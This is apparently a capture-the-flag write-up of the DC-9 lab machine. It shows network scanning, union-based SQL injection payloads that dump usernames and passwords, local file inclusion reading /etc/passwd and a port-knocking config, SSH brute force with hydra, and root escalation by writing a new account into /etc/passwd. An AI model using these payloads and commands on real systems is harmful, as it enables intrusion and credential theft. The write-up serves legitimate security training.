# DC 9

***

## Recon

Netdiscover was employed to identify live hosts within the target network. The following command was executed:

```bash
netdiscover -i eth0
```


<figure><figcaption></figcaption></figure>

### Nmap

`nmap` found one open TCP port, HTTP (80):

```bash
nmap -p- --open -sS --min-rate 5000 -v -n -Pn $IP
```

| Port   | State | Service |
| ------ | ----- | ------- |
| 80/tcp | Open  | Http    |

```bash
nmap -sCV -p80 $IP
```

```perl
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
```

### Website - TCP 80

```bash
whatweb http://$IP:80
```

```perl
http://192.168.0.114:80 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.0.114], Title[Example.com - Staff Details - Welcome]
```

#### Site

After examining the page, the _search_ field appears to be vulnerable to SQL injection.

**SQLI**

```sql
' or 1=1--
```


<figure><figcaption></figcaption></figure>

By increasing the numbers sequentially in the _SELECT_ statement, the attacker can identify the number of columns in the original query.

```sql
search=Mary' UNION SELECT 1,2,3,4,5,6-- -
```

1. `search=Mary'`: This part is the original search query. The user is searching for something with the keyword "Mary". The single quote (') is used to close the string in the SQL query.
2. `UNION SELECT 1,2,3,4,5,6`: In SQL, the `UNION` operator is used to combine the result sets of two or more SELECT statements. In this context, the attacker is attempting to combine the original query's result with a new result set. Here, the numbers 1, 2, 3, 4, 5, and 6 are used as placeholders for columns in the new result set. The idea is to see if the query returns a result and identify the number of columns in the original query.
3. `-- -`: This is a comment in SQL. The double dashes (--) indicate the start of a comment, and everything after that on the same line is treated as a comment and is not executed as part of the SQL query. The hyphen and space (-- -) are used to ensure that any remaining SQL syntax is commented out.


<figure><figcaption></figcaption></figure>

We get the following result,


<figure><figcaption></figcaption></figure>

```sql
search=Mary' UNION SELECT 1,2,3,4,5,SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

`SCHEMA_NAME` column from the `INFORMATION_SCHEMA.SCHEMATA` table. The `INFORMATION_SCHEMA.SCHEMATA` table contains information about all the schemas (databases) in the database server. We get the existing databases.


<figure><figcaption></figcaption></figure>

```sql
search=Mary' UNION SELECT 1,2,3,4,5,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='users'-- -
```

We extract data from the target database by selecting the `TABLE_NAME` column from the `INFORMATION_SCHEMA.TABLES` system table.

`FROM INFORMATION_SCHEMA.TABLES`: This specifies the source table from which the attacker wants to retrieve data. `INFORMATION_SCHEMA.TABLES` is a system table in most SQL databases that contains information about tables in the database.

`WHERE TABLE_SCHEMA='users'`: This is a filter applied to the query, restricting the results to tables where the `TABLE_SCHEMA` is equal to 'users'. We specifically targeting tables within the 'users' schema.


<figure><figcaption></figcaption></figure>

```sql
search=Mary' UNION SELECT 1,2,3,4,5,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='users' AND TABLE_NAME='UserDetails'-- -
```

We extract data from the target database by selecting the `COLUMN_NAME` column from the `INFORMATION_SCHEMA.COLUMNS` system table.

`FROM INFORMATION_SCHEMA.COLUMNS`: This specifies the source table from which the attacker wants to retrieve data. `INFORMATION_SCHEMA.COLUMNS` is a system table in most SQL databases that contains information about columns in the database.

`WHERE TABLE_SCHEMA='users' AND TABLE_NAME='UserDetails'`: This is a filter applied to the query, restricting the results to columns where the `TABLE_SCHEMA` is equal to 'users' and the `TABLE_NAME` is equal to 'UserDetails'. We are specifically targeting columns within the 'UserDetails' table in the 'users' schema.


<figure><figcaption></figcaption></figure>

```sql
search=Mary' UNION SELECT 1,2,3,4,username,password FROM users.UserDetails-- -
```

We select the `username` and `password` columns from the `users.UserDetails` table and we get all the usernames and passwords.

| username  | password      |
| --------- | ------------- |
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC\&TheBoyz   |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |
| joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |

We repeat the process on the Staff table,

```
search=Mary' UNION SELECT 1,2,3,4,5,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='Staff' AND TABLE_NAME='Users'-- -
```

```sql
search=Mary' UNION SELECT 1,2,3,4,Username,Password From Staff.Users-- -
```


<figure><figcaption></figcaption></figure>

| username | password                         |
| -------- | -------------------------------- |
| admin    | 856f5de590ef37314e7c3bdf6f8a66dc |

We try to [crack](https://crackstation.net/) the admin hash,


<figure><figcaption></figcaption></figure>

#### LFI

While logged in as an administrator, we encountered an unusual error message indicating that a file does not exist. This error suggests a potential vulnerability known as Local File Inclusion (LFI). LFI occurs when a web application improperly includes files on the server. Attackers can exploit this vulnerability to view sensitive files, execute malicious code, or perform other unauthorized actions on the server. It's crucial to investigate and address this issue promptly to prevent potential security breaches.


<figure><figcaption></figcaption></figure>

We use wfuzz to perform a directory traversal attack on a web application. In this scenario, we are attempting to access sensitive system files like `/etc/passwd` by brute-forcing different paths in the URL using a provided wordlist. The FUZZ keyword in the URL represents the position where the payloads from the wordlist are inserted.

```bash
wfuzz --hw 87 -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt "http://$IP/manage.php?FUZZ=../../../../../../../../etc/passwd"
```

We didn't receive any results, leading us to the realization that a cookie is likely being utilized in the process.


<figure><figcaption></figcaption></figure>

```bash
wfuzz -b 'PHPSESSID=doh59s4eqqdctapcs3ui5gapjd' --hw 100 -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt "http://$IP/manage.php?FUZZ=../../../../../../../../etc/passwd"``
```


<figure><figcaption></figcaption></figure>

We obtain the list of users,

```bash
curl -X GET 'http://192.168.0.114/manage.php?file=../../../../../../../../etc/passwd' -b "PHPSESSID=doh59s4eqqdctapcs3ui5gapjd" | grep bash | awk -F':' '{split($5, name, " "); print name[1]}'
```

````
```txt
root
Mary
Julie
Fred
Barney
Tom
Jerry
Wilma
Betty
Chandler
Joey
Rachel
Ross
Monica
Phoebe
Scooter
Donald
Scott
````

Trying different interesting [Linux files](https://github.com/0xsyr0/OSCP#local-file-inclusion-lfi) we find _/etc/knockd.conf_. Knockd is a port-knocking daemon that allows users to open network ports on a server by sending a sequence of connection attempts (knocks) to specific ports in a specific order.

```bash
wfuzz -b 'PHPSESSID=doh59s4eqqdctapcs3ui5gapjd' --hw 100 -c -w linuxLFI.txt "http://$IP/manage.php?file=../../../../../../../../FUZZ"
```

```bash
[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

So we open port 22 - SSH,

```bash
nc $IP 7469
nc $IP 8475
nc $IP 9842
```

### SSH - TCP 22

Brute force ssh with the usernames and passwords,

```bash
hydra -L user -P pass ssh://$IP
```


<figure><figcaption></figcaption></figure>

## PrivEsc

### User1

With the user janitor we obtain new credentials

```bash
cat /home/janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

Brute force ssh again,

```bash
hydra -L user -P pass ssh://$IP
```

> login: fredf password: B4-Tru3-001

### User2

With the user fredf,

```bash
sudo -l

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

The `test` binary is a tool that copies one file into another. Exploiting this, we create a new user with root privileges and insert the credentials into the system's password file, located at `/etc/passwd`.

```bash
openssl passwd -1
Password: 
Verifying - Password: 
$1$GB8hhODB$603ENjxP1oFU4TOz2e4kw.
```

`test:$1$GB8hhODB$603ENjxP1oFU4TOz2e4kw.:0:0:root:/root:/bin/bash`

```bash
sudo /opt/devstuff/dist/test/test /tmp/pass /etc/passwd
```
